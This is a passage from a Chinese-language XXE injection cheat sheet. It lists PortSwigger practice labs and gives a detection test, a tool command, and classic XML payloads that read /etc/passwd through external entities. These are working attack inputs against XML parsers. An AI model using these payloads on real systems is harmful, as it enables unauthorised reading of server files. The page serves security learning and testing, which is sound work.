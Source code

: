  ```ps1
  python ./otori.py --clone --module "G-XXE-Basic" --singleuri "file:///etc/passwd" --module-options "TEMPLATEFILE" "TARGETURL" "BASE64ENCODE" "DOCTYPE" "XMLTAG" --outputbase "./output-generic-solr" --overwrite --noerrorfiles --noemptyfiles --nowhitespacefiles --noemptydirs 
  ```

## 实验室

* [PortSwigger实验室用于XXE](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection)
  * [利用外部实体进行XXE攻击以检索文件](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)
  * [利用XXE执行SSRF攻击](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)
  * [带外交互的盲XXE](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)
  * [通过XML参数实体进行带外交互的盲XXE](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)
  * [利用恶意外部DTD进行盲XXE数据泄露](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
  * [通过错误消息检索数据的盲XXE](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)
  * [利用XInclude检索文件](https://portswigger.net/web-security/xxe/lab-xinclude-attack)
  * [通过图像文件上传利用XXE](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)
  * [通过重新利用本地DTD检索数据的XXE](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)
* [GoSecure高级XXE利用研讨会](https://gosecure.github.io/xxe-workshop) 

## 检测漏洞

基本实体测试，当XML解析器解析外部实体时，结果应该在`firstName`中包含"John"，在`lastName`中包含"Doe"。实体定义在`DOCTYPE`元素内部。

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

在向服务器发送XML负载时，设置`Content-Type: application/xml`可能会有帮助。

## 利用XXE检索文件

### 经典XXE

我们尝试显示文件`/etc/passwd`的内容

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```
